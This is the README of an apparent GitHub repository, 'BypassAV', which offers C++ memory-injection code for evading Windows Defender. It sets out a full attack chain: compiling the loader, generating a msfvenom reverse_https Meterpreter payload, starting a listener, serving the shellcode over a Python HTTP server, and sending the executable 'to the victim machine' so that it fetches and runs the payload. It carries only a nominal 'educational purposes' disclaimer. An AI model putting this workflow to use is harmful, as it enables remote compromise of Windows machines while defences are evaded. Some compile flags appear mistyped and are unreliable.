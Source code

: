 <h1 align="center">💀Evade Windows AV💀</h1>

<br>

>This repository focuses on storing a memory injection code written in c++ in order to evade windows defender, also using a metasploit payload.
>

>
>Obs: These scripts are for educational purposes only. Use them at your own risk because I will not be responsible for your actions!

>Works on Parrot OS and Kali Linux!
>

<br>

<p align="center">
	<img width="400" height="400" src="https://github.com/EndlssNightmare/BypassAV/blob/main/Fotos/metasploit-ascii-1-2.png">
</p>

<br>

<body>
   <h2 align="left"> Dependences:</h2>

<br>

  >
  >Create a SSL/TLS Certificate:<a href="https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter-paranoid-mode.html"> SSL Certificate</a>
  >

  >
  >C/C++ Compiler:<a href="https://www.mingw-w64.org" > Mingw32</a>
  >

  >
  >Metasploit Framework:<a href="https://www.metasploit.com"> Metasploit Framework</a>>
  >
<br>

  <h2 align="left"> How to run the script:</h2>

<br>

Upgrade your apt package: `sudo apt update && sudo apt upgrade`

<br>

Install the C/C++ compiler: `apt-get install g++-mingw-w64-x86-64`

<br>

Compile the code: `x86_x64-w64-mingw32-g++ --static -o name.exe BypassAV.cpp -fpermissive -lsw2_32`

<br>

Create a SSL/TLS Certificate: `openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 \
-subj "/C=US/ST=Texas/L=Austin/O=Development/CN=www.example.com" \
-keyout www.example.com.key \
-out www.example.com.crt && \
cat www.example.com.key  www.example.com.crt > www.example.com.pem && \
rm -f www.example.com.key  www.example.com.crt`

<br>

Create your own Metasploit configured payload: `msfvenom -p windows/x64/meterpreter/reverse_https lhost=yourip lport=port HandlerSSLCert=/home/kali/www.example.com.pem StagerVerifySSLCert=true -f raw -o beacon.bin`

<br>

Send the executable file to the victim machine.

<br>

Set a listener on msfconsole: `msfconsole -r meta.rc`

<br>

Set a http listener to grab de beacon.bin with the executable on victim machine: `python -m http.server 8000`

<br>

On the executable, set your ip, the port of http server and the beacon.bin file: `./BypassAV.exe YOURIP HTTPPORT beacon.bin`

<br>

## References and Credits:
  
  <br>

  ><a href="https://github.com/TheD1rkMtr/Shellcode-Hide"> Repository reference.</a>
  >
  ><a href="https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter-paranoid-mode.html"> Custom SSL/TSL Certificate.</a>
  >
  ><a href="https://www.youtube.com/@gemini_security"> Gemini Security</a>

  <br>
